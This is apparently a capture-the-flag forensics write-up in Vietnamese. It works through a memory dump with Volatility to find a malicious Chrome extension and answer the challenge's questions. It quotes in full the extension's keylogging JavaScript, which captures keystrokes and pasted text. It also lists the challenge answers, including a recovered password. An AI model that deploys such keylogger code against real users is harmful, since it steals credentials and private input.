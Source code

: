 # _Stealth Invasion_ _(FORSENSICS)_

![image](https://github.com/user-attachments/assets/cf31068e-2c57-45e6-abe8-f1d8833dbef8)

Bài cho file memdump.elf, lần đầu mình gặp file dump mà đuôi là elf nên liền check file cái đã

![image](images/19.png)

Vẫn đúng là file dump bth thôi, giờ dùng volatility để phân tích

>1. What is the PID of the Original (First) Google Chrome process:

Câu này dùng plugin windows.pslist

![image](images/20.png)

```
Answer: 4080
```

>2. What is the only Folder on the Desktop

Câu này dùng windows.filescan | grep desktop

![image](images/21.png)

```
Answer: malext
```

> 3. What is the Extention's ID (ex: hlkenndednhfkekhgcdicdfddnkalmdm)

Thấy trên `desktop` có được 1 số file `.js`, dump thử về xem sao (vì mình `grep` ID mãi mà nhập vô không đúng)

File `background.js`

```js
function addLog(s) {
    
    if (s.length != 1 && s !== "Enter" && !s.startsWith("PASTE"))  {
        s = `|${s}|`;
    } else if (s === "Enter" || s.startsWith("PASTE")) {
        s = s + "\r\n";
    }

    chrome.storage.local.get(["log"]).then((data) => {
        if (!data.log) {
            data.log = "";
        }

        data.log += s;

        chrome.storage.local.set({ 'log': data.log });
    });
}


chrome.runtime.onConnect.addListener((port) => {

    console.assert(port.name === "conn");
    console.log("v1.2.1");

    port.onMessage.addListener( ({ type, data }) => {
        if (type === 'key') {
            addLog(data);
        } else if (type == 'paste') {
            addLog('PASTE:' + data);
        }
    });
});

chrome.runtime.onMessage.addListener(
    function(request, sender, sendResponse) {
        if (request.check === "replace_html" && chrome.storage.local.get("replace_html")) {
            sendResponse({ url: chrome.storage.local.get('replace_html_url')});
        }
    }
);
```
File `content-script.js`

```js
var conn = chrome.runtime.connect({ name: "conn" });

chrome.runtime.sendMessage('update');

(async () => {
    const response = await chrome.runtime.sendMessage({ check: "replace_html" });
    console.log(response)
})();

chrome.runtime.sendMessage('replace_html', (response) => {
    conn.postMessage({ "type": "check", "data": "replace_html" });
});

document.addEventListener("keydown", (event) => {
    const key = event.key;
    conn.postMessage({ "type": "key", "data": key });
    return true;
});


document.addEventListener("paste", (event) => {
    let paste = event.clipboardData.getData("text/plain");
    conn.postMessage({ "type": "paste", "data": paste });
    return true;
});
```
Script trên là một phần của `Chrome Extensions`, nó như một `Keylogger` dùng để lưu lại lịch sử nhấn phím của người dùng. Hỏi chatgpt thì mình có được vị trí lưu

![image](images/22.png)


![image](images/23.png)

```
Answer: nnjofihdjilebhiiemfmdlpbdkbjcpae
```

>4. After examining the malicious extention's code, what is the log filename in which the datais stored

Ngay hình trên lấy được 1 tệp `.log`

```
Answer: 000003.log
```
>5. What is the URL the user navigated to

Mình dumpfiles `000003.log` về, tệp log này ghi lại lịch sử nhấn phím người dùng bởi `malicious extensions` ở trên

![image](images/24.png)

Có thể thấy người dùng truy cập vào drive.google.com rồi thực hiện login, nên từ đây có thể lấy được luôn đáp án cho câu 6

```
Answer: drive.google.com
```

>6. What is the password of selene@rangers.eldoria.com

![image](images/25.png)

```
Answer: clip-mummify-proofs
```

